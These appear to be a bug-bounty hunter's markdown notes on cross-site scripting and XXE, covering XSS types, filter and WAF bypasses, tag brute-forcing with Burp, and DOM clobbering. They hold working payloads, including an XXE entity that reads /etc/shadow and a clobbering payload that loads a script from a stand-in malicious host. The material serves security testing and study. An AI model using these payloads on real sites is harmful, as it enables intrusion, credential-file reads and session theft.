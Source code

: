 # Xss

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Theory
### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> types
#### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

#### Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


#### DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> Source & Sink

To further understand the nature of the DOM-based XSS vulnerability, we must understand the concept of the Source and Sink of the object displayed on the page. The Source is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.

On the other hand, the Sink is the function that writes the user input to a DOM Object on the page. 
```
    document.write()
    DOM.innerHTML
    DOM.outerHTML

jQuery library functions that write to DOM objects are:
    add()
    after()
    append()
```

------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> xss bypass
### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> innerHTML 
The innerHTML function does not allow the use of the <script> tags within it as a security feature
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```
As alternative it can be used something like
```javascript
<img src="" onerror=alert(window.origin)>
```

### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> else
```js
<<a|ascript>alert('xss')</script>
```

##  Deprecated Interface XXE injection
Use a deprecated B2B interface that was not properly shut down. XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- search xxe payload
- look for POST requests
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&xxe;</lastName>
</userInfo>
```
--------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> DOM XSS
- paper: http://www.webappsec.org/projects/articles/071105.shtml
#### How to use it:
- you need to share with the victim the url containing the xss. 

#### Isuses:
If you send the xss in the example1, the backend could detect and block/sanitize the request. In the example 2, notice the number sign (#) right after the file name. It tells the browser that everything beyond it is a fragment.
#### Example 1:
```
  http://www.vulnerable.site/welcome.html?notname=
  <script>alert(document.cookie)<script>&name=Joe
```
#### Example 2:
```
/attachment.cgi?id=&action=
  foobar#<script>alert(document.cookie)</script>
  ```

For example, this will trigger a xss on error, which will occur because src is empty. 
```
<img src="" onerror=alert(window.origin)>
```
```
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
 src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&
 auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
 ```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80">  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)

#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 

#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag
  - ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>```
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Videos:
- xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
  - filtering and sanitazation come frontend back end.
  - Always test that frontend and backend are sanitized.
  - eg: registering an account by API with email.
- [w3schools.com/xml](https://www.w3schools.com/xml/xml_dtd.asp)
- [XXE Lab Breakdown: Exploiting XXE using external entities to retrieve files](https://www.youtube.com/watch?v=71dZaGfOVqw)
- [How to search for XXE!](https://www.youtube.com/watch?v=0DQnWalxYb4)
- [Web App Testing: Episode 3 - XSS, SQL Injection, and Broken Access Control](https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3)


 
